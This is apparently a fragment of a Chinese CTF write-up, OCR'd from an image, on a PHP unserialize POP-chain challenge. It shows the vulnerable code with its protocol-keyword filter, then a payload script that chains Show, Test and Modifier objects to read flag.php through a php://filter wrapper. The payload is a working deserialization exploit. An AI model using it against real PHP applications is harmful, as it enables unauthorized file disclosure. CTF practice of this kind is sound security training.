 ```php
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
?>
```
先贴个payload,自己懒得再做了-。-，具体不细说了
```php
<?php
class Modifier {
    protected  $var = "php://filter/convert.base64-encode/resource=flag.php";
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return "www.gem-love.com";
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$o = new Show('aaa');
$o->str= new Test();
$a = new Show($o);
echo urlencode(serialize($a));
```